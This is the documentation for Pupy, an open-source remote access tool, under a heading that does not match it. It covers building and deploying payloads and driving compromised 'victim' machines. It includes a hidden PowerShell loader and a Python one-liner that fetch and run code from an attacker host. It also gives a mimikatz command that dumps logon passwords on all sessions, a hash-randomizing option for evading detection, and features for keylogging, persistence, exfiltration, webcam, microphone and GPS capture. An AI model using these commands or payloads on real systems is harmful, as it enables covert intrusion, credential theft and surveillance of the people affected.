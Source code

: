 **********************************************************
Mitigations_to_Enumeration
**********************************************************


Pupy is an opensource multiplatform Remote Administration Tool.
Pupy can be built to a classic executable, an apk, a pure python file (that can be loaded remotely from a python one-liner), a reflective DLL ... Some of these methods does not leave any trace on disk.
Pupy can load the python interpreter from memory and load any python module remotely from memory (.py, .pyc, .pyd).
You can then access objects on the client side from the serverside transparently with the awesome rpyc library.
Pupy can be used for various purposes :

* security research
* education
* pentesting
* administration
* projects and developments around privacy in python that require very low disk footprints
    ...


Installation
================





::

  git clone https://github.com/n1nj4sec/pupy.git pupy
 cd pupy
 git submodule init
 git submodule update
 pip install -r pupy/requirements.txt
 wget https://github.com/n1nj4sec/pupy/releases/download/latest/payload_templates.txz
 tar xvf payload_templates.txz && mv payload_templates/* pupy/payload_templates/ && rm payload_templates.txz && rm -r payload_templates

You may need to install impacket from https://www.coresecurity.com/corelabs-research/open-source-tools/impacket



Features
==========

 - Multi-platform (tested on windows xp, 7, 8, 10, kali linux, ubuntu, osx, android)
 - On windows, the Pupy payload can be compiled as a reflective DLL and the whole python interpreter is loaded from memory. Pupy does not touch the disk :)
 - pupy can also be packed into a single .py file and run without any dependencies other that the python standard library on all OS
 - pycrypto gets replaced by pure python aes && rsa implementations when unavailable
 - Pupy can reflectively migrate into other processes
 - Pupy can remotely import, from memory, pure python packages (.py, .pyc) and compiled python C extensions (.pyd, .so). The imported python modules do not touch the disk.
 - Pupy is easily extensible, modules are quite simple to write, sorted by os and category.
 - A lot of awesome modules are already implemented!
 - Pupy uses [rpyc](https://github.com/tomerfiliba/rpyc) and a module can directly access python objects on the remote client
 - We can also access remote objects interactively from the pupy shell and you even get auto-completion of remote attributes!
 - Communication transports are modular, stackable and awesome. You could exfiltrate data using HTTP over HTTP over AES over XOR. Or any combination of the available transports !
 - Pupy can communicate using obfsproxy [pluggable transports](https://www.torproject.org/docs/pluggable-transports.html.en)
 - All the non interactive modules can be dispatched to multiple hosts in one command
 - Commands and scripts running on remote hosts are interruptible
 - Auto-completion for commands and arguments
 - Custom config can be defined: command aliases, modules automatically run at connection, ...
 - Interactive python shells with auto-completion on the all in memory remote python interpreter can be opened
 - Interactive shells (cmd.exe, /bin/bash, ...) can be opened remotely. Remote shells on Unix & windows clients have a real tty with all keyboard signals working fine just like a ssh shell
 - Pupy can execute PE exe remotely and from memory (cf. ex with mimikatz)
 - Pupy can generate payloads in various formats : apk,lin_x86,lin_x64,so_x86,so_x64,exe_x86,exe_x64,dll_x86,dll_x64,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky
 - Pupy can be deployed in memory, from a single command line using pupygen.py's python or powershell one-liners.
 - "scriptlets" can be embeded in generated payloads to perform some tasks "offline" without needing network connectivity (ex: start keylogger, add persistence, execute custom python script, check_vm ...)
 - tons of other features, check out the implemented modules

Implemented Transports
====================

 All transports in pupy are stackable. This mean that by creating a custom transport conf (pupy/network/transport/<transport_name>/conf.py), you can make you pupy session looks like anything. For example you could stack HTTP over HTTP over base64 over HTTP over AES over obfs3 :o)

 - rsa
 	- A layer with authentication & encryption using RSA and AES256, often stacked with other layers
 - aes
 	- layer using a static AES256 key
 - ssl (the default one)
 	- TCP transport wrapped with SSL
 - ssl_rsa
 	- same as ssl but stacked with a rsa layer
 - http
 	- layer making the traffic look like HTTP traffic. HTTP is stacked with a rsa layer
 - obfs3
 	- [A protocol to keep a third party from telling what protocol is in use based on message contents](https://gitweb.torproject.org/pluggable-transports/obfsproxy.git/tree/doc/obfs3/obfs3-protocol-spec.txt)
 	- obfs3 is stacked with a rsa layer for a better security
 - scramblesuit
 	- [A Polymorphic Network Protocol to Circumvent Censorship](http://www.cs.kau.se/philwint/scramblesuit/)
 	- scramblesuit is stacked with a rsa layer for a better security
 - udp
 	- rsa layer but over UDP (could be buggy, it doesn't handle packet loss yet)
 - other
 	- Other layers doesn't really have any interest and are given for code examples : (dummy, base64, XOR, ...)

Implemented Launchers (not up to date, cf. ./pupygen.py -h)
==========================================================

 Launchers allow pupy to run custom actions before starting the reverse connection
 - connect
 	- Just connect back
 - bind
 	- Bind payload instead of reverse
 - auto_proxy
 	- Retrieve a list of possible SOCKS/HTTP proxies and try each one of them. Proxy retrieval methods are: registry, WPAD requests, gnome settings, HTTP_PROXY env variable

Implemented Modules (not up to date)
=====================================

All platforms:
^^^^^^^^^^^^^^^^

 - command execution
 - download
 - upload
 - interactive python shell with auto-completion
 - interactive shell (cmd.exe, powershell.exe, /bin/sh, /bin/bash, ...)
 	- tty allocation is well supported on both windows and \*nix. Just looks like a ssh shell
 - shellcode exec
 - persistence
 - socks5 proxy
 - local and remote port forwarding
 - screenshot
 - keylogger
 - run the awesome credential gathering tool [LaZagne](https://github.com/AlessandroZ/LaZagne) from memory !
 - sniff tools, netcreds
 - process migration (windows & linux, not osx yet)
 - ...
 - a lot of other tools (upnp client, various recon/pivot tools using impacket remotely, ...)

Windows specific :
^^^^^^^^^^^^^^^^

 - migrate
   - inter process architecture injection also works (x86->x64 and x64->x86)
 - in memory execution of PE exe both x86 and x64!
 	- works very well with [mimitakz](https://github.com/gentilkiwi/mimikatz) :-)
 - webcam snapshot
 - microphone recorder
 - mouselogger:
 	- takes small screenshots around the mouse at each click and send them back to the server
 - token manipulation
 - getsystem
 - creddump
 - tons of useful powershell scripts
 - ...


Android specific
^^^^^^^^^^^^^^^^^^^^


 - Text to speech for Android to say stuff out loud
 - webcam snapshots (front cam & back cam)
 - GPS tracker !


Build payloads from sources
===========================

Windows EXE/Reflective DLL
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Cross-compile with WINE && VCPP

::

  cd client/sources
  ./buildenv.sh
  ./build.sh

you can also add the flag DEBUG=1 if you want the generated pupy exe to open a console and print debug tracebacks


Android APK
^^^^^^^^^^^^


pupy apk for Android is packaged with kivy and buildozer.


Step 1

follow the instructions from https://kivy.org/docs/guide/packaging-android.html to install buildozer and kivy
On Kali 2.0 I used:

::

  apt-get install python-kivy zlib1g-dev cython
  pip install buildozer

Step 2

::

  cd client/android_sources
  ./build.sh



Generate payloads
=====================

The "client" here refers to pupy's payload running on the victim, and the "server" here refers to the pupy's payload running on the attacker, independently of who initiate the connection (bind or reverse shell).

All available launchers, transports and scriptlets can be seen using the command :

::

  $ python pupygen.py -l


Launchers
^^^^^^^^^^^^

Pupy launchers is an abstraction layer to change the behavior of pupy clients before the connection starts. You can list available launchers with the command :

::

  $ python pupygen.py -h

The connect launcher doesn't do anything special before "client" connecting to the "server" using the configured transport. The bind launcher works like the connect launcher but the "server" needs to connect on the "client". The auto_proxy launcher will try to connect directly to the server, but if it fails, it will try to find the proxy configuration by various methods depending on the OS and attempt to connect using each potential proxy found.



Transport Types
^^^^^^^^^^^^^^

The transport define what protocol pupy will use to exfiltrate. Transports are usually customizable through the launcher options. The default transport used is ssl if none is supplied. Note that Pupy is compatible with obfsproxy's awesome transports like obfs3 or scramblesuit.


Generate Binaries
^^^^^^^^^^^^^^^^^^

payload.py (generated with ./pupygen.py -f py) can be run on windows, linux and osx directly. All dependencies and chosen scriptlets are embedded. However some functionalities won't work on windows like the process migration which needs the compiled binaries.



On Windows
""""""""""""

To generate binaries on windows you can use the precompiled binaries templates :

::

  $ usage: pupygen.py [-h]
                  [-f {client,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky}]
                  [-O {android,windows,linux}] [-A {x86,x64}] [-S] [-o OUTPUT]
                  [-D OUTPUT_DIR] [-s SCRIPTLET] [-l] [-E] [--no-use-proxy]
                  [--randomize-hash]
                  [--oneliner-listen-port ONELINER_LISTEN_PORT]
                  [--debug-scriptlets] [--debug] [--workdir WORKDIR]
                  [{bind,auto_proxy,dnscnc,connect}] ...

 ### Generate payloads for Windows, Linux, OSX and Android.

 positional arguments:
  {bind,auto_proxy,dnscnc,connect}
                        Choose a launcher. Launchers make payloads behave
                        differently at startup.
  launcher_args         launcher options

 optional arguments:
  -h, --help            show this help message and exit
  -f {client,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky}, --format {client,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky}
                        (default: client)
  -O {android,windows,linux}, --os {android,windows,linux}
                        Target OS (default: windows)
  -A {x86,x64}, --arch {x86,x64}
                        Target arch (default: x86)
  -S, --shared          Create shared object
  -o OUTPUT, --output OUTPUT
                        output path
  -D OUTPUT_DIR, --output-dir OUTPUT_DIR
                        output folder
  -s SCRIPTLET, --scriptlet SCRIPTLET
                        offline python scriptlets to execute before starting
                        the connection. Multiple scriptlets can be privided.
  -l, --list            list available formats, transports, scriptlets and
                        options
  -E, --prefer-external
                        In case of autodetection prefer external IP
  --no-use-proxy        Don't use the target's proxy configuration even if it
                        is used by target (for ps1_oneliner only for now)
  --randomize-hash      add a random string in the exe to make it's hash
                        unknown
  --oneliner-listen-port ONELINER_LISTEN_PORT
                        Port used by oneliner listeners ps1,py (default: 8080)
  --debug-scriptlets    don't catch scriptlets exceptions on the client for
                        debug purposes
  --debug               build with the debug template (the payload open a
                        console)  --workdir WORKDIR     Set Workdir (Default = current workdir)


::

  $ ./pupygen.py connect --host 192.168.2.131:443
 binary generated with config :
 OUTPUT_PATH = /opt/pupy/pupy/pupyx86.exe
 LAUNCHER = 'connect'
 LAUNCHER_ARGS = ['--host', '192.168.2.131:443']
 SCRIPTLETS = []


Another option is to use the powershell oneliner format to deploy pupy from memory using powershell :

::

  $ ./pupygen.py -f ps1_oneliner connect --host 192.168.0.1:443 --transport http
 [+] copy/paste this one-line loader to deploy pupy without writing on the disk :
  ---
 powershell.exe -w hidden -c "iex(New-Object System.Net.WebClient).DownloadString('http://192.168.0.1:8080/p')"
  ---
 [+] Started http server on 0.0.0.0:8080
 [+] waiting for a connection ...


pupygen.py can embed offline scriptlets with the exe/dll you generate. These scripts will be executed before connecting back and can be used to add some offline capabilities like adding persistence through registry, checking for sandboxed environment, ... etc




On Android
"""""""""""

::

  $ ./pupygen.py -O android connect --host 192.168.2.131:443
 [+] packaging the apk ... (can take a 10-20 seconds)
 ...
 jar signed.

 binary generated with config :
 OUTPUT_PATH = /opt/pupy/pupy.apk
 LAUNCHER = 'connect'
 LAUNCHER_ARGS = ['--host', '192.168.2.131:443']
 SCRIPTLETS = []



On Linux & OSX
"""""""""""""

There is multiple options. The first one is generate a pure python payload and the victim needs to have installed python:

::

  $ ./pupygen.py -f py connect --transport ssl --host 192.168.1.1
 [+] generating payload ...
 embedding /usr/local/lib/python2.7/dist-packages/rpyc ...
 embedding /opt/pupy/pupy/network ...
 [+] payload successfully generated with config :
 OUTPUT_PATH = /opt/pupy/pupy/pupy_packed.py
 LAUNCHER = 'connect'
 LAUNCHER_ARGS = ['--transport', 'ssl', '--host', '192.168.1.1']
 SCRIPTLETS = []


Once the script executed on the linux/OSX host, you should have a pupy session. All non-standard dependencies are packaged inside the payload and loaded from memory.

 The same thing can be loaded remotely from a single line by using the py_oneliner format. This method has the advantage of not leaving any trace on the disk and can be deployed easily from a ssh shell using ssh tunnels

 ::

   $ ./pupygen.py -f py_oneliner connect --transport ssl --host 192.168.1.1

then execute follow the instructions. Your python one-liner should looks like :

::

  python -c 'import urllib;exec urllib.urlopen("http://X.X.X.X:8080/index").read()'


For linux another option is to generate an ELF with

::

  ./pupygen.py -f client -O linux -A x64 -o linux (or ./pupygen.py -f client -O linux -A x64 -o linux connect --host 192.168.xxx.xxx:443 -t ssl)


The third option is use pyinstaller to package a linux/OSX payload to create a standalone binary. This method has the advantage to work even if there is no recent/compatible python version installed on the host. You may need the following hidden imports in your .spec file :


* rpyc
* pycrypto
* rsa
* pyasn1
* uuid
* pty
* tty


Setting up the server
=======================


Using docker
^^^^^^^^^^^^

::

  mkdir /tmp/pupy
 docker run -d --name pupy -p 2022:22 -p 8080:8080 -v /tmp/pupy:/projects alxchk/pupy:unstable
 mkdir -p /tmp/pupy/keys
 cat ~/.ssh/id_rsa.pub >/tmp/pupy/keys/authorized_keys
 ssh -p 2022 pupy@127.0.0.1


The server
^^^^^^^^^^^^

To start the server, you can simply start pupysh.py on the correct port with the correct transport

::

  ./pupysh.py -h
 usage: pupysh [-h] [--log-lvl {DEBUG,INFO,WARNING,ERROR}] [--version]
                  [--transport {obfs3,tcp_ssl_proxy,tcp_cleartext,tcp_ssl,tcp_base64,scramblesuit,tcp_cleartext_proxy}]
                  [--port PORT]

 Pupy console

 optional arguments:
  -h, --help            show this help message and exit
  --log-lvl {DEBUG,INFO,WARNING,ERROR}, --lvl {DEBUG,INFO,WARNING,ERROR}
                        change log verbosity
  --version             print version and exit
  --transport {obfs3,tcp_ssl_proxy,tcp_cleartext,tcp_ssl,tcp_base64,scramblesuit,tcp_cleartext_proxy}
                        change the transport ! :-)
  --port PORT, -p PORT  change the listening port



The shell
=========


Find commands and modules help
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

First of all it is important to know that nearly all commands in pupy have a help builtin. So if at any moment you are wondering what a command does you can type your command followed by -h or --help

::

  sessions -h
 jobs -h
 run -h


This is even true for modules ! For example if you want to know how to use the pyexec module type :

::

  >> run pyexec -h
 usage: pyexec [-h] [--file <path>] [-c <code string>]

 execute python code on a remote system

 optional arguments:
 -h, --help            show this help message and exit
 --file <path>         execute code from .py file
 -c <code string>, --code <code string>
                      execute python oneliner code. ex : 'import
                      platform;print platform.uname()'


Use the completion !
^^^^^^^^^^^^^^^^^^^^^^

Nearly all commands and modules in pupy have custom auto-completion. So if you are wondering what you need to type just press TAB

::

  >> run
 getsystem           load_package        msgbox              ps                  shell_exec
 download            interactive_shell   memory_exec         persistence         pyexec              shellcode_exec
 exit                keylogger           migrate             port_scan           pyshell             socks5proxy
 get_info            linux_pers          mimikatz            portfwd             screenshot          upload
 getprivs            linux_stealth       mouselogger         process_kill        search              webcamsnap
 >> run load_package
 _sqlite3           linux_stealth      psutil             pupyimporter       pyshell            sqlite3
 interactive_shell  netcreds           ptyshell           pupymemexec        pywintypes27.dll   vidcap
 linux_pers         portscan           pupwinutils        pupyutils          scapy


::

  >> run pyexec -
 --code   --file   --help   -c       -h
 >> run pyexec --file /
 /bin/         /etc/         /lib/         /libx32/      /media/       /proc/        /sbin/        /sys/         /var/
 /boot/        /home/        /lib32/       /live-build/  /mnt/         /root/        /share/       /tmp/         /vmlinuz
 /dev/         /initrd.img   /lib64/       /lost+found/  /opt/         /run/         /srv/         /usr/



Escape your arguments
^^^^^^^^^^^^^^^^^^^^^^

Every command in pupy shell uses a unix-like escaping syntax. If you need a space in one of your arguments you need to put your argument between quotes.

::

  >> run shell_exec 'tasklist /V'

If you send a Windows path, you need to double the backquotes or put everything between quotes.

::

  >> run download 'C:\Windows\System32\cmd.exe'

Or

::

  >> run download C:\\Windows\\System32\\cmd.exe



Create Aliases
^^^^^^^^^^^^^^

Modules aliases can be defined in the pupy.conf file. If you define the following alias :

::

  shell=interactive_shell

running the command "shell" will be equivalent as running "run interactive_shell".

As an example, defining the following alias will add a command to kill the pupy client's process with signal 9:

::

  killme = pyexec -c 'import os;os.kill(os.getpid(),9)'



Jobs
^^^^

Jobs are commands running in the background. Some modules like socks5proxy or portfwd automatically start as jobs, but all modules can be run as jobs when used with the --bg argument.

::

  >> run --bg shell_exec 'tasklist /V'
 [%] job < shell_exec ['tasklist /V'] > started in background !


The --bg switch is typically used when you want to execute a long command/module and want the result later while having the shell still functioning.

The jobs output can be retrieved at any moment by using the jobs -p command. From the "jobs" command you can also list jobs status and kill jobs.


::

  >> jobs
 usage: jobs [-h] [-k <job_id>] [-l] [-p <job_id>]

 list or kill jobs

 optional arguments:
 -h, --help            show this help message and exit
 -k <job_id>, --kill <job_id>
 print the job current output before killing it
 -l, --list            list jobs
 -p <job_id>, --print-output <job_id>
						print a job output


Regular jobs can be set in Linux/Unix environments by running your pupysh.py script inside the Screen utility. You can then setup cronjobs to run the below command at whatever intervals you require, this essentially pastes the input after the word 'stuff' into the screen session. Replace 1674 with the ID of your screen session, the echo command is the Enter key being pressed.

::

  screen -S 1674 -X stuff 'this is an example command'$(echo -ne '\015')



Handle multiple clients connected
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

By default pupy launch every module you run on all connected clients. This allows for example to run mimikatz on all connected clients and dump passwords everywhere in one command

::

  run memory_exec /usr/share/mimikatz/Win32/mimikatz.exe privilege::debug sekurlsa::logonPasswords exit


To interact with one client, use the "sessions -i" command

::

  >> sessions -i 1
  ``` to interact with the session 1
  ```code
  sessions -i 'platform:Windows release:7'
  ``` to interact with all windows 7 only
  You can find all the available filtering parameters using the get_info module


Writing a module
====================


Writing a MsgBox module
^^^^^^^^^^^^^^^^^^^^^^

First of all write the function/class you want to import on the remote client
in the example we create the file pupy/packages/windows/all/pupwinutils/msgbox.py

::

  import ctypes
 import threading

 def MessageBox(text, title):
	t=threading.Thread(target=ctypes.windll.user32.MessageBoxA, args=(None, text, title, 0))
	t.daemon=True
	t.start()


then, simply create a module to load our package and call the function remotely

::

  from pupylib.PupyModule import *

 __class_name__="MsgBoxPopup"

 @config(cat="troll", tags=["message","popup"])
 class MsgBoxPopup(PupyModule):
	""" Pop up a custom message box """
	dependencies=["pupwinutils.msgbox"]

	def init_argparse(self):
		self.arg_parser = PupyArgumentParser(prog="msgbox", description=self.__doc__)
		self.arg_parser.add_argument('--title', help='msgbox title')
		self.arg_parser.add_argument('text', help='text to print in the msgbox :)')

	def run(self, args):
		self.client.conn.modules['pupwinutils.msgbox'].MessageBox(args.text, args.title)
		self.log("message box popped !")



and that's it, we have a fully functional module :) This module is only compatible with windows, you can check the same module in the project to see how it's implemented to manage multi-os compatibility.

::

  >> run msgbox -h
 usage: msgbox [-h] [--title TITLE] text

 Pop up a custom message box

 positional arguments:
  text           text to print in the msgbox :)

  optional arguments:
    -h, --help     show this help message and exit
    --title TITLE  msgbox title
